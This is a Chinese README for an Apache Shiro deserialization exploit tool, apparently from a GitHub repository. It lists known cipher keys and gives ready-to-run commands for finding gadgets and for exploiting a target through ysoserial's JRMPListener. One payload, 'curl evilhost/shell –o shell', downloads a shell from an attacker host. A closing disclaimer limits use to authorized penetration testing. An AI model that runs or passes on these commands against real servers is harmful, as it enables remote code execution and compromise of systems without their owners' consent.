

# Shiro_exploit

Shiro_exploit用于检测与利用Apache Shiro反序列化漏洞脚本。可以帮助企业发现自身安全漏洞。

该脚本通过网络收集到的22个key，利用ysoserial工具中的URLDNS这个Gadget，并结合dnslog平台实现漏洞检测。漏洞利用则可以选择Gadget和参数，增强灵活性。

# 环境

Python2.7

requests

Jdk 1.8

# 使用说明

    usage: shiro_exploit.py [-h] -u URL [-t TYPE] [-g GADGET] [-p PARAMS] [-k KEY]

    OPTIONS:
    -h, --help            show this help message and exit
    -u URL, --url URL     Target url.
    -t TYPE, --type TYPE  Check or Exploit. Check :1 , Exploit:2 , Find gadget:3
    -g GADGET, --gadget GADGET
                            gadget
    -p PARAMS, --params PARAMS
                            gadget params
    -k KEY, --key KEY     CipherKey

    Example: python shiro_exploit.py -u target


检测默认只需要使用-u参数即可。

检测可用gadget的方式可以运行

python shiro_exploit.py -u http://target/ -t 3 -p "ping -c 2 {dnshost}" -k "kPH+bIxk5D2deZiIxcaaaA=="

程序执行时会获取dnslog的域名替换  `{dnshost}` 这个值。不需要进行修改。目前还没解决windows和linux系统通用性的问题。这里-p自己根据实际情况指定下吧。



利用的话，可以采用JRMP的方式。也可以根据检测出来的gadge来进行利用。

服务器：

java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections5 'curl evilhost/shell –o shell'

本地：

python shiro_exploit.py -u http://target/ -t 2 -g JRMPClient -p "remote_host:1099" -k "kPH+bIxk5D2deZiIxcaaaA=="


# 常见问题
1. 运行时出现 No module named 'Crypto'

运行如下命令：

```
pip uninstall crypto pycryptodome
pip install pycryptodome
```

python安装目录下的\Lib\site-packages，将crypto文件夹的名字改成Crypto。

如有其它问题或建议欢迎提交至issue。

工具的思路可以看我的博客文章：

[https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/](https://www.bacde.me/post/Apache-Shiro-Deserialize-Vulnerability/ "Apache Shiro 反序列化漏洞实战")

注：请不要将该脚本用于非法用途，仅用于合法的，经过授权的渗透测试，公司内部安全检查与研究使用。由于使用工具带来的不良后果与本人无关。